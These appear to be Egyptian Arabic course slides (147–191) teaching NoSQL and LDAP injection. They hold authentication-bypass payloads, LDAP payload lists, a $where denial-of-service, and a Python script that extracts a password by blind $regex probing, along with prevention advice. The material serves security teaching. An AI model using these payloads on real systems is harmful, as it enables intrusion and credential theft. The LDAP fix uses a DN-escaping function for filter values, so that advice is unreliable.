




# 🎓 الجزء الثامن: NoSQL Injection + LDAP Injection
## Slides 147 → 191

---

## 📌 Slide 147: NoSQL Injection
### عنوان القسم: NoSQL Injection

خلصنا SQL Injection — دلوقتي بندخل في عالم **NoSQL Injection**! 🔥

> **"NoSQL مش معناها No Injection!"** — دي من أهم الجمل في الكورس. مجرد إنك بتستخدم MongoDB مش معناه إنك في أمان من هجمات الحقن.

---

## 📌 Slide 148: What is NoSQL?

> **NoSQL** (Not Only SQL) هي عائلة من قواعد البيانات غير العلاقاتية. بتخزن البيانات في **documents** (JSON) بدل **tables** (rows/columns).

### الفرق بين SQL و NoSQL:

| الجانب | SQL (Relational) | NoSQL (Non-Relational) |
|--------|-----------------|----------------------|
| **البنية** | جداول ثابتة (Schema) | مرنة بدون Schema |
| **اللغة** | SQL | JSON-based queries |
| **الأمثلة** | MySQL, PostgreSQL, Oracle | MongoDB, CouchDB, Redis |
| **التخزين** | Rows & Columns | Documents (JSON/BSON) |
| **الاستخدام** | بيانات متجانسة | بيانات متغيرة الشكل |

---

## 📌 Slide 149: NoSQL - MongoDB Basics

### أساسيات MongoDB:



### مثال:
```json
// SQL: SELECT * FROM users WHERE name = 'admin'

// MongoDB equivalent:
db.users.find({ "name": "admin" })

// Document structure:
{
    "_id": ObjectId("507f1f77bcf86cd799439011"),
    "name": "admin",
    "password": "hashed_password",
    "role": "administrator"
}
```

---

## 📌 Slide 150: NoSQL Injection - Concept

> **NoSQL Injection** بيحصل لما التطبيق بياخد مدخلات المستخدم وبيحطها **مباشرةً** في NoSQL query من غير validation. المهاجم بيقدر يتلاعب بالـ Query عشان يسحب بيانات أو يتخطى الـ Authentication.

### الفرق عن SQLi:
- مش بنستخدم `'` أو `UNION SELECT`
- بنتلاعب بـ **JSON operators** و **JavaScript**
- الـ Payloads مختلفة تماماً

---

## 📌 Slide 151: NoSQL Injection Types

### أنواع NoSQL Injection:



---

## 📌 Slide 152: NoSQL Operator Injection

> **Operator Injection** هو أشهر نوع. المهاجم بيحقن **MongoDB operators** زي `$ne`, `$gt`, `$regex` عشان يتلاعب بالاستعلام.

### الـ Operators المهمة:

| Operator | المعنى | المثال |
|----------|--------|--------|
| `$ne` | Not Equal (مش يساوي) | `{"password": {"$ne": ""}}` |
| `$gt` | Greater Than (أكبر من) | `{"age": {"$gt": 0}}` |
| `$regex` | Regular Expression | `{"password": {"$regex": "^a"}}` |
| `$exists` | Field exists | `{"password": {"$exists": true}}` |
| `$where` | JavaScript evaluation | `{"$where": "this.password == 'admin'"}` |

---

## 📌 Slide 153: NoSQL Auth Bypass

### تخطي الـ Authentication:

```json
// الاستعلام الأصلي:
db.users.find({ "username": user_input, "password": pass_input })

// المدخلات العادية:
{ "username": "admin", "password": "correct_password" }

// 🔴 هجوم NoSQL Injection:
{ "username": "admin", "password": { "$ne": "" } }
// $ne: "" = الباسورد مش فاضي = TRUE لأي باسورد!

// أو:
{ "username": { "$ne": "" }, "password": { "$ne": "" } }
// بيرجع أول يوزر في الداتابيز (عادةً الـ Admin!)
```

### في HTTP Request:
```
POST /login HTTP/1.1
Content-Type: application/json

{"username": {"$ne": ""}, "password": {"$ne": ""}}
```

أو في **URL-encoded form**:
```
POST /login HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username[$ne]=&password[$ne]=
```

---

## 📌 Slide 154: NoSQL Data Extraction

### استخراج البيانات بـ $regex:

```json
// هل الباسورد بيبدأ بـ 'a'?
{ "username": "admin", "password": { "$regex": "^a" } }
// لو رجّع نتيجة = TRUE → الباسورد بيبدأ بـ 'a'!

// هل الحرف التاني 'd'?
{ "username": "admin", "password": { "$regex": "^ad" } }
// TRUE!

// وهكذا حرف حرف:
// ^adm → TRUE
// ^admi → TRUE  
// ^admin → TRUE ← الباسورد كامل! 💀
```

> **ده زي Boolean-Based Blind SQLi — بس على MongoDB!** بنسأل سؤال True/False وبنبني الإجابة حرف حرف.

---

## 📌 Slide 155: NoSQL JavaScript Injection

### حقن JavaScript ($where):

```json
// $where بيسمح بتنفيذ JavaScript:
db.users.find({ "$where": "this.username == 'admin'" })

// 🔴 الهجوم:
{ "$where": "this.password.match(/.*/) || '' == ''" }
// بيرجع كل الـ Documents!

// أو:
{ "$where": "1 == 1" }
// TRUE دايماً!
```

> **💡 مهم:** `$where` مش متاحة في كل إصدارات MongoDB وممكن تكون معطلة. بس لو متاحة — ده أخطر نوع!

---

## 📌 Slide 156: NoSQL Injection Tools

### أدوات لـ NoSQL Injection:

| الأداة | الوصف |
|--------|-------|
| **NoSQLMap** | زي SQLMap بس لـ NoSQL — بتأتمت الاكتشاف والاستغلال |
| **Burp Suite** | لعمل Intercept وتعديل الـ JSON Requests |
| **mongosh** | MongoDB Shell للاتصال المباشر |
| **nosqli** | أداة Go لاختبار NoSQL Injection |

```bash
# NoSQLMap:
python nosqlmap.py -u "http://target.com/login" \
  --data '{"username":"admin","password":"test"}'
```

---

## 📌 Slide 157: Demo - NoSQL Injection Authentication Bypass

### ديمو: تخطي Login بـ NoSQL Injection

```
1. 🔍 اكتشاف:
   └── فورم Login يرسل JSON
   └── Content-Type: application/json

2. 💉 الحقن:
   └── {"username":"admin","password":{"$ne":""}}
   └── Response: 200 OK + Welcome Admin!

3. 📊 استخراج الباسورد:
   └── {"username":"admin","password":{"$regex":"^a"}} → 200 OK
   └── {"username":"admin","password":{"$regex":"^ad"}} → 200 OK
   └── ...
   └── {"username":"admin","password":{"$regex":"^admin123"}} → 200!
   └── Password: admin123 💀
```

---

## 📌 Slide 158: Demo - NoSQL Data Extraction

### ديمو: استخراج بيانات كاملة

```python
import requests
import string

target = "http://target.com/login"
charset = string.ascii_lowercase + string.digits
password = ""

for i in range(30):
    for c in charset:
        payload = {
            "username": "admin",
            "password": {"$regex": f"^{password}{c}"}
        }
        r = requests.post(target, json=payload)
        if "Welcome" in r.text:
            password += c
            print(f"[+] Password: {password}")
            break
    else:
        break

print(f"[✅] Full password: {password}")
```

---

## 📌 Slide 159: NoSQL Injection Prevention

### الحماية من NoSQL Injection:

```javascript
// ❌ Vulnerable:
const user = req.body.username;
const pass = req.body.password;
db.users.find({ username: user, password: pass });
// لو pass = {"$ne": ""} → bypass!

// ✅ Safe - Type Checking:
if (typeof req.body.username !== 'string' || 
    typeof req.body.password !== 'string') {
    return res.status(400).send('Invalid input');
}

// ✅ Safe - mongo-sanitize:
const sanitize = require('mongo-sanitize');
const user = sanitize(req.body.username);
const pass = sanitize(req.body.password);
db.users.find({ username: user, password: pass });
// mongo-sanitize بيشيل كل الـ $ operators!
```

---

## 📌 Slide 160: LDAP Injection
### عنوان القسم: LDAP Injection

دلوقتي بننتقل لنوع تاني من الحقن: **LDAP Injection**! 🔥

---

## 📌 Slide 161: What is LDAP?

> **LDAP** (Lightweight Directory Access Protocol) هو بروتوكول بيُستخدم للوصول لـ **خدمات الدليل** (Directory Services) — زي Active Directory في الشركات.

### بالمصري كده:
تخيل LDAP كـ **دليل تليفونات ضخم** للشركة — فيه كل الموظفين بأسمائهم وإيميلاتهم وأقسامهم وصلاحياتهم. لما بتسجل دخول على كمبيوتر الشغل — الكمبيوتر بيسأل **Active Directory** (اللي بيستخدم LDAP) لو اليوزر والباسورد صح.



---

## 📌 Slide 162: LDAP Query Structure

### بنية استعلام LDAP:

```
LDAP Filter Syntax:
(attribute=value)           → بحث بسيط
(&(attr1=val1)(attr2=val2)) → AND (كل الشروط)
(|(attr1=val1)(attr2=val2)) → OR (أي شرط)
(!(attribute=value))        → NOT (عكس)
```

### مثال استعلام Login:
```
(&(uid=admin)(userPassword=secret123))

meaning: 
  uid = admin AND userPassword = secret123
```

---

## 📌 Slide 163: LDAP Injection - Concept

> **LDAP Injection** بيحصل لما التطبيق بيحط مدخلات المستخدم **مباشرةً** في LDAP filter من غير validation. المهاجم بيقدر يعدل الفلتر عشان يتخطى الـ Authentication أو يسحب معلومات.

### بالمصري كده:
```
الاستعلام العادي:
(&(uid=admin)(userPassword=secret))

الهجوم:
uid = admin)(|(uid=*
الاستعلام بيبقى:
(&(uid=admin)(|(uid=*)(userPassword=anything))
→ بيرجع كل الـ Users!
```

---

## 📌 Slide 164: LDAP Injection - Auth Bypass

### تخطي الـ Authentication:

```
الكود الضعيف:
filter = "(&(uid=" + username + ")(userPassword=" + password + "))"

Payload:
username: admin)(&)
password: أي حاجة

الاستعلام بيبقى:
(&(uid=admin)(&)(userPassword=أي حاجة))

(&) = TRUE دايماً!
→ دخل كـ Admin من غير باسورد! 💀
```

### Payloads تانية:
```
username: *)(uid=*))(|(uid=*
username: admin)(|(password=*
username: admin)(%26)
username: *
```

---

## 📌 Slide 165: LDAP Injection - Data Extraction

### استخراج البيانات:

```
Payload: *)(uid=*))(|(uid=*
→ بيرجع كل الـ Users في الـ Directory

Payload: admin)(|(objectClass=*
→ بيرجع كل الـ Objects
```

### معلومات ممكن تسحبها:
- أسماء المستخدمين
- إيميلات
- أرقام تليفونات
- أقسام
- صلاحيات وأدوار
- Group Memberships

---

## 📌 Slide 166: LDAP Injection Payloads

### قائمة الـ Payloads:

```
# Auth Bypass:
*
*)(&
*)(|(&
admin)(&)
admin)(|(password=*))
*)((|uid=*
admin)(!(&(1=0

# Wildcard:
*)(uid=*))(|(uid=*

# Boolean:
admin)(|(cn=*
```

---

## 📌 Slide 167: LDAP Injection - Blind Extraction

### استخراج أعمى (Blind LDAP Injection):

```
هل أول حرف من الباسورد 'a'?
(&(uid=admin)(userPassword=a*))
→ Login Success? → TRUE!

هل الحرفين الأولانيين 'ad'?
(&(uid=admin)(userPassword=ad*))
→ TRUE!

هل 'adm'?
→ TRUE!

وهكذا لحد ما نعرف الباسورد كامل!
```

> **نفس فكرة Boolean-Based Blind SQLi — بس على LDAP!**

---

## 📌 Slide 168: Demo - LDAP Injection

### ديمو عملي:

```
1. 🔍 اكتشاف:
   └── فورم Login
   └── جربنا admin)(&) في اليوزر
   └── دخلنا! → LDAP Injection مؤكدة

2. 📊 استخراج بيانات:
   └── *)(&) → كل اليوزرات
   └── admin)(|(cn=*)) → كل الأسماء

3. 🔑 استخراج الباسورد:
   └── (&(uid=admin)(userPassword=a*)) → TRUE
   └── حرف حرف...
   └── الباسورد: admin123
```

---

## 📌 Slide 169: LDAP Injection Prevention

### الحماية:

```python
# ❌ Vulnerable:
filter = f"(&(uid={username})(userPassword={password}))"

# ✅ Safe - Escape Special Characters:
import ldap
safe_username = ldap.dn.escape_dn_chars(username)
safe_password = ldap.dn.escape_dn_chars(password)
filter = f"(&(uid={safe_username})(userPassword={safe_password}))"

# الحروف اللي لازم نعمللها Escape:
# * ( ) \ NUL
```

### الحروف الخاصة في LDAP:

| الحرف | الـ Escape |
|-------|-----------|
| `*` | `\2a` |
| `(` | `\28` |
| `)` | `\29` |
| `\` | `\5c` |
| `NUL` | `\00` |

---

## 📌 Slide 170: NoSQL vs LDAP Injection Comparison

### مقارنة بين الأنواع:

| الجانب | SQL Injection | NoSQL Injection | LDAP Injection |
|--------|-------------|----------------|----------------|
| **الهدف** | MySQL, MSSQL | MongoDB, CouchDB | Active Directory |
| **اللغة** | SQL | JSON/JS operators | LDAP Filters |
| **الـ Payload** | `' OR '1'='1` | `{"$ne": ""}` | `*)(&)` |
| **الأداة** | SQLMap | NoSQLMap | Manual/Custom |
| **الانتشار** | عالي جداً | متوسط | متوسط |
| **الحماية** | Parameterized | Type Check + Sanitize | Escape chars |

---

## 📌 Slides 171-186: Additional Labs and Demos

### Labs إضافية:

الـ Slides دي بتحتوي على **Labs عملية إضافية** لـ NoSQL و LDAP Injection:

**Lab: NoSQL Injection on Real App**
```bash
# Step 1: اكتشاف NoSQL Injection
curl -X POST http://target/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":{"$ne":""}}'

# Step 2: استخراج البيانات
# استخدم السكريبت اللي شرحناه قبل كده مع $regex
```

**Lab: LDAP Injection on DVWA**
```
# في DVWA LDAP module:
Username: admin)(&)
Password: anything
→ Login Success!
```

**Lab: Blind NoSQL Extraction**
```python
# Script لاستخراج كل الأسماء:
for prefix in all_prefixes:
    payload = {"username": {"$regex": f"^{prefix}"}, "password": {"$ne": ""}}
    if login_success(payload):
        usernames.append(prefix)
```

---

## 📌 Slides 187-189: Advanced NoSQL Techniques

### تقنيات متقدمة:

**Server-Side JavaScript Injection:**
```json
{
    "$where": "function() { return this.password.length > 5; }"
}
```

**NoSQL Denial of Service:**
```json
{
    "$where": "function() { sleep(10000); return true; }"
}
```

**NoSQL with $lookup (Aggregation Injection):**
```json
[{
    "$lookup": {
        "from": "admin_users",
        "localField": "username",
        "foreignField": "username",
        "as": "admin_data"
    }
}]
```

---

## 📌 Slide 190: NoSQL + LDAP Summary

### ملخص القسم:

| الموضوع | الشرح |
|---------|-------|
| **NoSQL ≠ No Injection** | MongoDB فيها ثغرات حقنية خطيرة |
| **Operator Injection** | `$ne`, `$gt`, `$regex` بتتجاوز الـ Auth |
| **JS Injection** | `$where` بينفذ JavaScript! |
| **LDAP Injection** | بيستهدف Active Directory |
| **LDAP Auth Bypass** | `*)(&)` أو `admin)(&)` |
| **حماية NoSQL** | Type Checking + mongo-sanitize |
| **حماية LDAP** | Escape special characters |

---

## 📌 Slide 191: What's Next?

### القادم: ORM Injection



---

## 🎯 ملخص الجزء الثامن

### 🔧 Key Takeaways:

```
✅ NoSQL Injection: $ne, $gt, $regex, $where
✅ الحماية: Type Checking + mongo-sanitize
✅ LDAP Injection: *)(&) للـ Auth Bypass
✅ الحماية: Escape حروف * ( ) \
✅ كل نوع داتابيز ليه Payloads خاصة بيه
✅ الأدوات: NoSQLMap, Burp Suite, mongosh
```

> 📝 **الجزء الجاي:** هندخل في **ORM Injection** — يعني استغلال الأطر اللي المبرمجين فاكرين إنها بتحميهم من SQLi! 🛠️
